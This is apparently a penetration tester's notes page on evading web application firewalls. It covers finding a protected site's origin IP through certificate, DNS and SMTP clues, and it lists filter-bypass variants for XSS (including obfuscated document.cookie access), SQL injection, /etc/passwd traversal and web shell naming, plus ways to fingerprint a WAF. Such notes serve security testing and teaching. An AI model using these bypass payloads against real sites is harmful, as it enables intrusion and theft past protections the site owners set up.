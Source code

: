 ```yaml
---
title: WAF Evasion
category: Enumeration
order: 5
---
```


In this section I will explain techniques to found the original IP of the hosted webapp.

# SSL Certificates

First we need to look inside the SSL Certificate of the webapp in order to find the fingerprint \(SHA256\)

![Fingerprint of SSL Certifcate](/hackingnotes/images/fingerprint_ssl.png)

With [censys](https://censys.io/certificates) you can search different hosted webpages with the same SSL fingerprint, so these are from the same company.

* [https://censys.io/certificates](https://censys.io/certificates)

![Censys results.](/hackingnotes/images/censys_waf_bypass.png)

Once you obtained the different domains or IPs that have the same fingerprint try to discover the IPs and play with the `Host HTTP header.`

```
curl -kv https://190.12.34.42/
```

It's common that the companies buys a range of IPs, so you should need to check more parent IPs.

```
curl -kv https://190.12.34.40/
curl -kv https://190.12.34.41/
curl -kv https://190.12.34.43/
curl -kv https://190.12.34.44/
curl -kv https://190.12.34.45/
curl -kv https://190.12.34.46/
```

# DNS History

Some times the companies put a WAF on a web application, but they don't configure it properly and any source IP instead of only the WAF can request the server.

So we can check the DNS history with `viewdnsinfo` to search the old IP.

* [https://viewdns.info/iphistory/](https://viewdns.info/iphistory/)

![ViewDNS.info](/hackingnotes/images/viewdns_info.png)

Finally with `suip.biz` we can check which apps are hosted on a server.

* [https://suip.biz/?act=hostmap](https://suip.biz/?act=hostmap)

![ViewDNS.info](/hackingnotes/images/suip.png)

# Via SMTP Functionalities

SMTP headers can reveal a lot of value information. If a SMTP functionality is found on the web appliaction try to send a mail to a known recipient to check these headers in order to find the real webserver IP.

![SMTP Headers](/hackingnotes/images/smtp_headers.png)

# Bypassing blacklisting WAFs

The whitelisting mode is prone to false positives, which is the reason it is very common to find WAFs deployed in blacklisting mode rather than whitelisting mode.

The blacklisting mode is a collection of well-known attacks. WAF producers put together a list of rules to protect a web application against various attack vectors that are used to exploit the most common vulnerabilities.

So we can use different payloads to bypass some filters.

## Cross-Site Scripting (XSS)

* Instead of using `alert('xss')` or `alert(1)` we can choose a better option:
```
prompt('xss')
prompt(8)
confirm('xss')
confirm(8)
alert(/xss/.source)
window[/alert/.source](8)
```

* Instead of using `alert(document.cookie)` we can use:
```
with(document)alert(cookie)
alert(document['cookie'])
alert(document[/cookie/.source])
alert(document[/coo/.source+/kie/.source])
```

* Instead of using `<img src=x onerror=alert(1);>` we can use:

```
<svg/onload=alert(1)>
<video src=x onerror=alert(1);>
<audio src=x onerror=alert(1);>
```

* Instead of `javascript:alert(document.cookie)` we can use:
```
data:text/html:base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

## Blind SQL Injection (Blind SQLi)

* Instead of using `' or 1=1` we can use:
```
' or 6=6
' or 0x47=0x47
or char(32)=''
or 6 is not null
```
* Instead of `UNION SELECT` we can use:
```
UNION ALL SELECT
```

## Directoy Traversal

* Instead of using `/etc/passwd` we can use:
```
/too/../etc/far/../passwd
/etc//passwd
/etc/ignore/../passwd
/etc/passwd.......
```

## Web Shell

* Instead of using `c99.php` , `r57.php` , `shell.aspx` , `cmd.jsp`, `CmdAsp.asp` we can use:
```
augh.php
```

# WAF Detection and Fingerprinting

WAF systems leave several footprints of their presence, which allow us to detect which WAF is in place.

`wafw00f` is a tool that can detect up to 20 different WAF products.

```
wafw00f www.example.com
```
Also it can be possible to detect the WAF vendor with a nmap script.
```
nmap --script=http-waf-fingerprint www.imperva.com -p 80
```
## Cookie Values

Some WAF systems reveal their presence through cookies.

| WAF Vendor | Cookies |
| :--- | :--- |
| Citrix Netscaler | n_saf, citrix_ns_id or NSC_ |
| F5 BIG-IP ASM | ^TS[a-zA-Z0-9]{3,6} |
| Barracuda | barra_counter_session and BNI__BARRACUDA_LB_COOKIE |

## Header Rewrite

Some WAFs rewrite the HTTP headers. Usually modify the Server header.

* Original Request
```
HTTP/1.1 200 OK
Date: Mon, 7 Apr 2014 10:10:50 GMT
Server: Apache (Unix)
Content-Type: text/html
Content-Length: 2506
```
* Modified Request
```
HTTP/1.1 404 Not Found
Date: Mon, 7 Apr 2014 10:11:06 GMT
Server: Netscape-Enterprise/6.1
Content-Type: text/html; 
Content-Length: 158
```